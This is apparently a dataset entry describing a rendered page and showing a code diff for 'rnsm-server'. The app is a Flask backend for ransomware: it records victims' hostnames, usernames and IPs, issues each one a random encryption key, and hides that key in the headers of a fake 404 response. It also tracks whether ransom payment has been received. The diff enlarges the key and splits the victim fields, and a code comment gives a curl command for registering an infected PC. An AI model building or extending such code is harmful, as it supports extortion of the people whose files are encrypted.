

Before and after one commit to TheForcer/rnsm-server, a Flask app: page / in a window 1280 px wide. Shown: the part 72-486 px from the top of the page, without its empty margins (0-920 px from the left). Run offline with Flask 2, Linux system fonts and the light colour scheme; tables that the repository leaves empty hold one stand-in row (values such as "Sample post"); some libraries are stand-ins or nearby versions.

Commit message:
Differentiate between hostname/username, increase key size to 32

```diff
--- a/app/models.py
+++ b/app/models.py
@@ -8,7 +8,8 @@ def load_victim(victim_id):
 
 class Victim(db.Model):
     victim_id = db.Column(db.Integer, primary_key=True)
-    victim_name = db.Column(db.Text, nullable=False)
+    victim_hostname = db.Column(db.Text, nullable=False)
+    victim_username = db.Column(db.Text, nullable=False)
     victim_key = db.Column(db.Text, default="HeheRandomKeyHere")
     date_firstContact = db.Column(db.DateTime, nullable=False, default=datetime.utcnow)
     ip_firstContact = db.Column(db.Text, nullable=False)
@@ -16,4 +17,4 @@ class Victim(db.Model):
     archived = db.Column(db.Boolean, nullable=False, default=0)
 
     def __repr__(self):
-        return f"Victim('{self.victim_id}', '{self.victim_name}', '{self.ip_firstContact}', '{self.date_firstContact}')"
+        return f"Victim('{self.victim_id}', '{self.victim_hostname}', '{self.victim_username}', '{self.ip_firstContact}', '{self.date_firstContact}')"
--- a/app/routes.py
+++ b/app/routes.py
@@ -3,6 +3,7 @@ from app import app, db
 from app.models import Victim, load_victim
 import random, os
 import base64
+import nacl
 
 # Show an overview of all victims currently registered in the database
 @app.route("/", methods=["GET"])
@@ -26,17 +27,18 @@ def displayArchive():
 
 # When called, creates an Victim object in the DB and responds with a fake 404,
 # with HTTP headers containing Encryption ID & Key
-# ex: curl -i -X POST -F 'victim_name=RandomInfectedPC' -F 'ip=192.168.178.3' http://127.1:5000/create
+# ex: curl -i -X POST -F 'victim_hostname=RandomInfectedPC' -F 'victim_username=someUser' -F 'ip=192.168.178.3' http://127.1:5000/create
 @app.route("/create", methods=["POST"])
 def createVictim():
     error = None
     if request.method == "POST":
         # if request.accesskey == "accesskey":
         victim_id = random.randint(0, 999999999999)
-        victim_key = base64.b64encode(os.urandom(16)).decode("ascii")
+        victim_key = base64.b64encode(os.urandom(32)).decode("ascii")
         victim = Victim(
             victim_id=victim_id,
-            victim_name=request.form["victim_name"],
+            victim_username=request.form["username"],
+            victim_hostname=request.form["hostname"],
             victim_key=victim_key,
             ip_firstContact=request.form["ip"],
         )
--- a/app/templates/overview.html
+++ b/app/templates/overview.html
@@ -7,10 +7,11 @@
     {% for victim in victims %}
     <div class="card col-sm-4">
         <div class="card-body mx-auto text-center">
-            <h5 class="card-title"><b>Opfer {{victim.victim_name}}</b></h5>
+            <h5 class="card-title"><b>Opfer {{victim.victim_hostname}}</b></h5>
             <hr>
             <p class="card-text">
             <h6><b>ID:</b> {{victim.victim_id}}</h6>
+            <h6><b>Username:</b> {{victim.victim_username}}</h6>
             <h6><b>Erstkontakt:</b> {{victim.date_firstContact}}</h6>
             <h6><b>Letzte IP:</b> {{victim.ip_firstContact}}</h6>
             <h6><b>Zahlung erfolgt:</b> {{victim.payment_received}}</h6>
```
